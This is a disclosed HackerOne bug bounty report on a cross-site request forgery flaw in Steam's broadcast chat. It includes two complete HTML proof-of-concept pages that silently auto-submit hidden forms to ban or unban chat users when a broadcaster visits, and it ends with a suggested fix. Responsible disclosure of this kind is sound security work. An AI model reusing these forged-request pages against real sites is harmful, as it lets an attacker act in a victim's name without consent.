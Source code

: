 # CSRF | Ban or unban users in broadcast's chat

## Report Details
- **Report ID**: 381237
- **URL**: https://hackerone.com/reports/381237
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-07-13T12:28:25.015Z
- **Disclosed**: 2019-01-07T20:07:39.180Z

## Reporter
- **Username**: romesful
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: valve

## Vulnerability Information
#Steps to reproduce
* Start broadcast
* Attacker needs to craft special HTML page
* Get broadcast's steam id(it contains in URL: `https://steamcommunity.com/broadcast/watch/{STEAM ID}/`
* If attacker wants to unban somebody, he needs to create HTML page like this:

```
<iframe style="display:none" name="csrf-frame"></iframe>
<form action="https://steamcommunity.com/broadcast/ajaxupdateusermute/" method="POST" target="csrf-frame" id="csrf-form">
<input type="hidden" name="broadcaststeamid" value="{STEAM ID}">
<input type="hidden" name="issuersteamid" value="{STEAM ID}">
<input type="hidden" name="chattersteamid" value="{USER'S STEAM ID TO UNBAN}">
<input type="hidden" name="bantype" value="0">
<input type="hidden" name="duration" value="0">
<input type="hidden" name="perm" value="0">
</form>
<script>document.getElementById("csrf-form").submit()</script>
<html>
<head>
    <title>Unban in chat - CSRF</title>
</head>

<body>
<h1>Somebody was unbanned silently :/</h1>
</body>
</html>
```

* If attacker wants to permanently ban somebody, he needs to create HTML page like this:

```
<iframe style="display:none" name="csrf-frame"></iframe>
<form action="https://steamcommunity.com/broadcast/ajaxupdateusermute/" method="POST" target="csrf-frame" id="csrf-form">
<input type="hidden" name="broadcaststeamid" value="{STEAM ID}">
<input type="hidden" name="issuersteamid" value="{STEAM ID}">
<input type="hidden" name="chattersteamid" value="{USER'S STEAM ID TO BAN}">
<input type="hidden" name="bantype" value="1">
<input type="hidden" name="duration" value="0">
<input type="hidden" name="perm" value="1">
</form>
<script>document.getElementById("csrf-form").submit()</script>
<html>
<head>
    <title>Ban in chat - CSRF</title>
</head>

<body>
<h1>Somebody was banned silently :/</h1>
</body>
</html>
```

* After that broadcast's creator needs to visit Attacker's page.
* And somebody will be banned/unbanned.

#Video PoC
*I banned myself, because i don't have third Steam account
{F320189}

#Fix
Add sessionid parameter to POST request, like this implemented in others requests.

## Impact

Attacker can permanently ban or unban other users.

## Attachments
- bandicam_2018-07-13_15-05-58-799.mp4
